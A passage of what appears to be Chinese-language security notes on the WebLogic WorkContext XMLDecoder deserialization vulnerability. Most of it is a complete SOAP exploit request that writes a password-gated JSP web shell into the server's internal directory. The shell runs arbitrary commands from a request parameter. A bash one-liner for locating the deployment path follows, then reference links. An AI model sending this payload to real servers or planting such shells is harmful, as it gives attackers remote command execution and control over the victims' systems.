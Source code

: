 ```xml
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

https://threathunter.org/topic/5a436cc6ec721b1f1966f270

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%
    if("ty".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[102400];          
        out.print("<pre>");          
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
        out.print("</pre>");
    } 
    out.print("test"); 
    %>]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
```

这个方法中找到当前绝对路径是个关键，查找当前路径的方法：

```bash
for i in `find $(find ./ -type d -name bea_wls_internal) -type f -name ".beamarker.dat"| xargs -I {} echo {}.txt`; do echo `pwd` "$i" >$i; done

#1.先找到bea_wls_internal目录的绝对路径
#2.在bea_wls_internal目录的路径中找“.beamarker.dat”文件的绝对路径
#3.对每个路径下的“.beamarker.dat”都创建一个“.beamarker.dat.txt”
#4.将当前路径和“.beamarker.dat.txt”的绝对路径都写入到当前的“.beamarker.dat.txt”中
```



参考：

1. https://www.anquanke.com/post/id/92003
2. https://cxsecurity.com/issue/WLB-2018010082
3. https://threathunter.org/topic/5a426e6bec721b1f1966f238
4. https://threathunter.org/topic/5a436cc6ec721b1f1966f270